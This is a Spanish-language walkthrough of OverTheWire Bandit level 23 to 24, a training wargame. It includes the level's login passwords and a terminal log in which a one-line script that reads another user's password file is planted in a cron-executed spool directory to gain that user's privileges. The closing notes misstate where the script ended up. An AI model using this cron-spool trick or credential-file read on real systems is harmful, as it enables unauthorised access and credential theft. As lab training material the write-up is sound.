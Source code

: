 ## Bandit Level 23 → Level 24

## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
 
**Servidor**:  bandit.labs.overthewire.org
**Usuario**: bandit23
**Password**: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución

```

bandit23@bandit:~$ ls -la /etc/cron.d/
total 56
drwxr-xr-x   2 root root  4096 Feb 21 22:04 .
drwxr-xr-x 108 root root 12288 Feb 21 22:04 ..
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit22
-rw-r--r--   1 root root   122 Feb 21 22:03 cronjob_bandit23
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit24
-rw-r--r--   1 root root    62 Feb 21 22:03 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Feb 21 22:04 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat

bandit23@bandit:~$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ ls -la
ls: cannot open directory '.': Permission denied
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/24
bandit23@bandit:/var/spool/bandit24/foo$  cd /tmp/24
bandit23@bandit:/tmp/24$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/dark24/password" > mio.sh 
bandit23@bandit:/tmp/24$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/24/password" > mio.sh 
bandit23@bandit:/tmp/24$ chmod 777 mio.sh
bandit23@bandit:/tmp/24$ touch password
bandit23@bandit:/tmp/24$ chmod 666 password
bandit23@bandit:/tmp/24$ ls -la
total 124
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 02:08 .
drwxrwx-wt 54 root     root     114688 Mar  1 02:08 ..
-rwxrwxrwx  1 bandit23 bandit23     50 Mar  1 02:08 mio.sh
-rw-rw-rw-  1 bandit23 bandit23      0 Mar  1 02:08 password
bandit23@bandit:/tmp/24$ cp mio.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/mio.sh': Operation not permitted
bandit23@bandit:/tmp/24$ cp mio.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/24$ cat password
bandit23@bandit:/tmp/24$ ls -la
total 124
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 02:08 .
drwxrwx-wt 54 root     root     114688 Mar  1 02:09 ..
-rwxrwxrwx  1 bandit23 bandit23     50 Mar  1 02:08 mio.sh
-rw-rw-rw-  1 bandit23 bandit23      0 Mar  1 02:08 password
bandit23@bandit:/tmp/24$ cat password
bandit23@bandit:/tmp/24$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/24$ 

```

## Notas adicionales

* Creamos una carpeta que fue temporal, dónde se realizo un script.
* Se mando todo lo que contiene al usuario 24 a la carpeta temporal.
* Se mando el script a la ruta: **/var/spool/bandit24/mio.sh** , esta ruta se ejecutara y nos mandara el comando.

## Referencias